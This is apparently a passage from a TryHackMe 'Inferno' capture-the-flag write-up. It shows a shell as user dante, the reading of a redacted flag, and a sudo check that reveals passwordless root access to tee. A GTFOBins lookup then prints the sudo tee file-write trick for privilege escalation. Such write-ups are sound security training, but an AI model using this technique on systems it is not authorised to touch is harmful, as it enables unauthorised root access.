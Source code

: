 ```
39 packages can be updated.
0 updates are security updates.


Last login: Mon Jan 11 15:56:07 2021 from 192.168.1.109
dante@Inferno:~$ sh
$ ls
Desktop  Documents  Downloads  local.txt  Music  Pictures  Public  Templates  Videos
$ cat local.txt
7----------REDACTED------------5

```
First flag found! 

# Privelege escalation
Next up is getting root. The first thing I usually do in these THM rooms is to check sudo
```
sudo -l
Matching Defaults entries for dante on Inferno:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dante may run the following commands on Inferno:
    (root) NOPASSWD: /usr/bin/tee
```
So we have sudo access to the tee program. Let's check [gtfobins](https://gtfobins.github.io/gtfobins/tee/) to look for tee sudo tricks (I just use the command line interface for it):
```
$ gtfo -b tee                                        
   _  _           _    __      
 _| || |_        | |  / _|     
|_  __  _|   __ _| |_| |_ ___  
 _| || |_   / _` | __|  _/ _ \ 
|_  __  _| | (_| | |_| || (_) |
  |_||_|    \__, |\__|_| \___/ 
             __/ |             
            |___/              



Code:	LFILE=file_to_write
	echo DATA | ./tee -a "$LFILE"
	
Type:	file-write


Code:	LFILE=file_to_write
	echo DATA | ./tee -a "$LFILE"
	
Type:	suid


Code:	LFILE=file_to_write
	echo DATA | sudo tee -a "$LFILE"
	
Type:	sudo
```
